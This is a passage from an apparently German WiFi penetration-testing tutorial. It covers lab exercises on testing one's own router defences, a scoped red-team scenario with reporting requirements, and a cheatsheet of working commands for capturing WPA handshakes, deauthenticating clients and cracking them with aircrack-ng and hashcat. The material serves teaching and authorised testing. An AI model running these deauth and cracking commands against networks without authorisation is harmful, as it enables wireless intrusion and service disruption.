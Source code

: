 **Ziel:** Teste Verteidigungen gegen deine eigenen Attacks.

**Setup:**
- Eigener Router mit verschiedenen Konfigs

**Tests:**
1. **Baseline:** Normaler WPA2, einfaches Passwort
   - Handshake Crack → Erfolg
2. **Strong Password:** 20 Zeichen, komplex
   - Handshake Crack → Unmöglich
3. **WPA3 + MFP:** Modern Router
   - Deauth → Blockiert
   - WPA3 Handshake → Schwerer zu cracken
4. **Client Isolation:** Aktiviert
   - ARP Spoof zwischen Clients → Blockiert

**Dokumentiere:**
- Welche Defenses funktionieren?
- Wo sind Lücken?

### Übung 6: Red Team Scenario

**Ziel:** Simuliere kompletten Penetration Test.

**Scenario:**
- Du bist externer Pentester
- Ziel: Zugriff auf Firmen-WLAN
- Scope: Nur WiFi, keine physischen Zugriff

**Phasen:**
1. **Recon:** Passive Scans, keine Deauths
2. **Active Recon:** Handshake Capture erlaubt
3. **Exploitation:** Cracking, Evil Twin, etc.
4. **Reporting:** Dokumentiere Findings

**Report muss enthalten:**
- Executive Summary
- Detailed Findings
- Risk Ratings (Critical/High/Medium/Low)
- Recommendations
- Evidence (Screenshots, Logs)

---

## 11. Command Cheatsheet

### WPA/WPA2 Cracking

```bash
# Handshake Capture
airodump-ng -c <CH> --bssid <BSSID> -w handshake wlan0
aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT> wlan0

# Verify Handshake
aircrack-ng handshake-01.cap

# CPU Crack
aircrack-ng -w wordlist.txt handshake-01.cap

# Convert for hashcat
hcxpcapngtool -o handshake.hc22000 handshake-01.cap

# hashcat GPU Crack
hashcat -m 22000 -a 0 handshake.hc22000 wordlist.txt
hashcat -m 22000 -a 3 handshake.hc22000 ?a?a?a?a?a?a?a?a  # Brute
hashcat -m 22000 -a 6 handshake.hc22000 wordlist.txt ?d?d  # Hybrid
```